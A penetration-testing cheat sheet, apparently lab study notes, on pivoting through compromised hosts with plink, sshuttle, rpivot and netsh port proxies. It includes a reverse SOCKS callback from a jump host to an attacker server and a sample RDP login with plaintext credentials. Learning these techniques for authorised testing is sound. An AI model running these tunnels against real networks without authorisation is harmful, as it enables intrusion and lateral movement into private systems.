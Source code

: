 # Pivoting Around Obstacles

## Pivoting from Windows attack host

[PuTTYs](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) plink for SSH port forwarding

```cmd
plink -ssh -D 9050 ubuntu@10.129.15.50
```

Use [Proxifier](https://www.proxifier.com) or other for localhost:9050 proxy .

## Pivoting with Sshuttle

[Sshuttle](https://github.com/sshuttle/sshuttle) is a python tool that removes the need to configure `proxychains`. Does not provide other options for pivoting over TOR or HTTPS proxy servers.

 `-r` option to connect to the remote machine with a  username and password. Then  include the network or IP we want to route through the pivot host, in this case, the network  172.16.5.0/23.

```bash
sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0/23 -v

# Verify
nmap -v -sV -p3389 172.16.5.19 -A -Pn

# Connect
xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

## Web Server Pivoting

[Rpivot](https://github.com/klsecservices/rpivot) is a python reverse SOCKS proxy tool. Rpivot binds a machine inside a corporate network to an external server and exposes the client's local port on the server-side.

```bash
# Start server
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0

# Transfer to jump host
cp -r ../rpivot  ubuntu@10.129.202.64:~/

# Connect from jump
python2.7 client.py --server-ip 10.10.15.111 --server-port 9999
Backconnecting to server 10.10.15.111 port 9999

# Test
proxychains firefox-esr 172.16.5.135:80
```

If NTLM auth is required:

```bash
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```

## Port Forwarding with Win NetSH

Port forward from pwned host to server on adjacent network:

```bash
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25

# Verify
netsh.exe interface portproxy show v4tov4
```

